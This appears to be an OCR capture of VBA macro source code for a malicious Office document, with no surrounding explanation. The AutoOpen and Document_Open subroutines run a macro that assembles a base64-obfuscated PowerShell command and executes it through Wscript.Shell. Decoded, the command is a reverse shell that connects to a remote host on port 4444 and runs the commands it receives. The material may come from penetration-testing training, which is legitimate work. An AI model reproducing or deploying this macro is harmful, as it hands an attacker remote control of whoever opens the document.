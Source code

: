 Sub AutoOpen()
    Mymacro
End Sub
Sub Document_Open()
    Mymacro
End Sub
Sub Mymacro()
    Dim Str As String
    Str = str + "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAt"
    Str = str + "AE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF"
    Str = str + "MAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIA"
    Str = str + "MQA5ADIALgAxADYAOAAuADEAMQA5AC4AMQA3ADIAIgAsADQANA"
    Str = str + "A0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBl"
    Str = str + "AG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AH"
    Str = str + "QAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUA"
    Str = str + "NQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIA"
    Str = str + "A9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0"
    Str = str + "AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAH"
    Str = str + "QAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAA"
    Str = str + "PQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQ"
    Str = str + "BOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBT"
    Str = str + "AEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AH"
    Str = str + "IAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsA"
    Str = str + "JABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZA"
    Str = str + "BhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBp"
    Str = str + "AG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgAC"
    Str = str + "QAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsA"
    Str = str + "IAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOw"
    Str = str + "AkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAu"
    Str = str + "AGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAE"
    Str = str + "cAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIA"
    Str = str + "KQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQ"
    Str = str + "BuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAu"
    Str = str + "AEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAH"
    Str = str + "UAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMA"
    Str = str + "ZQAoACkA"
    CreateObject("Wscript.Shell").Run Str
End Sub
